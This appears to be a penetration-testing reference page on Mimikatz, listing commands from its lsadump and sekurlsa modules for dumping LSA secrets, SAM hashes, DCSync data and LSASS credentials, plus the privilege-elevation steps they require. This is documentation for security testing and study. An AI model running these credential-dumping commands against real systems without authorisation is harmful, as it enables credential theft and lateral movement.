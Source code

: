 # Mimikatz

[`mimikatz`](https://github.com/gentilkiwi/mimikatz/) is a powerful post-exploitation tool used to extract plaintext passwords, hashes, PINs, and Kerberos tickets from memory on Windows systems. It is commonly used by penetration testers and attackers to **escalate privileges** and **move laterally** within networks. It has a [binary](https://github.com/gentilkiwi/mimikatz/releases) as well as a [`.ps1`](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)  implementation.

## Modules

### LSADump

The [`lsadump`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump) module dumps credentials from the **Local Security Authority (LSA)** framework. Most of these commands require either debug rights (`privlege::debug`) or local System (`token::elevate`). By default, the Administrators group has the `SeDebugPrivilege`.&#x20;

<table><thead><tr><th width="167">Command</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#lsa"><code>lsadump::lsa</code></a></td><td>Extracts LSA secrets from the <code>SECURITY</code> hive or memory</td></tr><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#sam"><code>lsadump::sam</code></a></td><td>Dumps local account hashes from the <code>SAM</code> hive</td></tr><tr><td><code>lsadump::secrets</code></td><td>Parses the decrypted LSA secrets</td></tr><tr><td><code>lsadump::cache</code></td><td>Gets <code>MSCache</code> (cached domain logons)</td></tr><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#dcsync"><code>lsadump::dcsync</code></a></td><td>Simulates a DC and pulls secrets over LDAP</td></tr></tbody></table>

### SekurLSA

The [`sekurlsa`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa) module is used to extract credentials from the protected **Local Security Authority Subsystem Service (LSASS)** memory. Similarly to the `lsadump` module, it requires either debug rights (`privlege::debug`) or local System (`token::elevate`).

```powershell
# Enable the SeDebugPrivilege
privilege::debug

# Escalate privileges to SYSTEM
token::elevate
```

<table><thead><tr><th width="226.33331298828125">Command</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#logonpasswords"><code>sekurlsa::logonpasswords</code></a></td><td>Extracts all available credentials from LSASS: NTLM hashes, plaintext passwords (if available), Kerberos tickets, etc.</td></tr><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#tickets"><code>sekurlsa::tickets</code></a></td><td>Dumps all tickets in all sessions from LSASS</td></tr><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#kerberos"><code>sekurlsa::kerberos</code></a></td><td>Extracts Kerberos tickets (TGTs, TGs) for current user from LSASS</td></tr><tr><td><code>sekurlsa::ekeys</code></td><td>Extracts Kerberos encryption keys (<code>aes256</code>, <code>rc4</code>)</td></tr><tr><td><code>sekurlsa::wdigest</code></td><td>Retrieves plaintext passwords if <code>WDigest</code> is enabled</td></tr><tr><td><code>sekurlsa::ssp</code></td><td>Extracts credentials used by Security Support Provider packages</td></tr><tr><td><code>sekurlsa::livessp</code></td><td>Targets LiveSSP credentials (rare)</td></tr><tr><td><code>sekurlsa::tspkg</code></td><td>Dumps credentials from the Terminal Services package</td></tr><tr><td><a href="https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#msv"><code>sekurlsa::msv</code></a></td><td>Dumps credentials from the <code>MSV1_0</code> package (local logons and NTLM hashes)</td></tr></tbody></table>

